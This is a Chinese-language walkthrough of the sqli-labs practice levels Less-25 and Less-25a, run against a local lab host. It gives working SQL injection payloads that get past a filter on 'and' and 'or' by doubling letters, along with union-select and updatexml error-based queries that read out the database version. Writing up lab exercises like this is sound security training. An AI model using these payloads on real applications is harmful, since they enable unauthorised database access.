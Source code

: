 + 注入测试：

    ```bash
    http://10.0.2.15/sqli-labs/Less-25/?id=2' oORr '1 
    http://10.0.2.15/sqli-labs/Less-25/?id=2' aandnd '1     # 两次输入都很和谐，页面显示正常 
    ```
![](img/Less-25.4.png)

+ 注入Payload:
    ```bash
    http://10.0.2.15/sqli-labs/Less-25/?id=-2' union all select 1,version() ,'3

    http://10.0.2.15/sqli-labs/Less-25/?id=2' aandnd updatexml(1,concat('^',(select version()),'^'),1) anandd'1 

    http://10.0.2.15/sqli-labs/Less-25/?id=2' oorr updatexml(1,concat('^',(select version()),'^'),1) oORr '1 
    ```
![](img/Less-22.5.png)

## Less-25a 

+ 输入
？id=1'或” 页面报错 ，报错一样 ，通过报错信息的不到有价值的消息 
同时后面接 --+ 或者#  均没有反应 

+ 尝试多次 直接 输入 --+ 强制闭合 

+ 然后输入 注入语句 
发现 and or  被过滤  

+ 使用 union select  注入
```bash
?id=-1 union select 1,version(),2  --+
```